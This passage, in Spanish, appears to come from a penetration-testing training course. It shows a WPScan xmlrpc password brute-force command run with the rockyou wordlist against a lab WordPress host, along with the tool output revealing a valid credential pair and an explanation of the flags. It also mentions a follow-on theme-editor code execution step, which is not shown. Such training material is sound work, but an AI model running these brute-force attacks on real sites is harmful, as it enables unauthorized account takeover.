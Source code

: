 Hay varias formas en que podemos abusar de la `built-in functionality` para atacar una instalación de WordPress. Cubriremos el brute forcing de inicio de sesión contra la página `wp-login.php` y la ejecución remota de código a través del editor de temas. Estas dos tácticas se construyen una sobre la otra, ya que primero necesitamos obtener credenciales válidas para un usuario de nivel administrador para iniciar sesión en el back-end de WordPress y editar un tema.

---

## Login Bruteforce

WPScan se puede utilizar para realizar fuerza bruta en nombres de usuario y contraseñas. El informe de escaneo en la sección anterior devolvió dos usuarios registrados en el sitio web (admin y john). La herramienta utiliza dos tipos de ataques de fuerza bruta de inicio de sesión, [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) y wp-login. El método `wp-login` intentará hacer fuerza bruta en la página de inicio de sesión estándar de WordPress, mientras que el método `xmlrpc` utiliza la API de WordPress para realizar intentos de inicio de sesión a través de `/xmlrpc.php`. El método `xmlrpc` es preferido ya que es más rápido.

```r
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[+] URL: http://blog.inlanefreight.local/ [10.129.42.195]
[+] Started: Wed Aug 25 11:56:23 2021

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - john / firebird1                                                                                           
Trying john / bettyboop Time: 00:00:13 <                                      > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: john, Password: firebird1

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Wed Aug 25 11:56:46 2021
[+] Requests Done: 799
[+] Cached Requests: 39
[+] Data Sent: 373.152 KB
[+] Data Received: 448.799 KB
[+] Memory used: 221 MB

[+] Elapsed time: 00:00:23
```

La flag `--password-attack` se usa para especificar el tipo de ataque. El argumento `-U` acepta una lista de usuarios o un archivo que contiene nombres de usuario. Esto también se aplica a la opción de contraseñas `-P`. La flag `-t` es el número de threads que podemos ajustar según sea necesario. WPScan pudo encontrar credenciales válidas para un usuario, `john:firebird1`.

---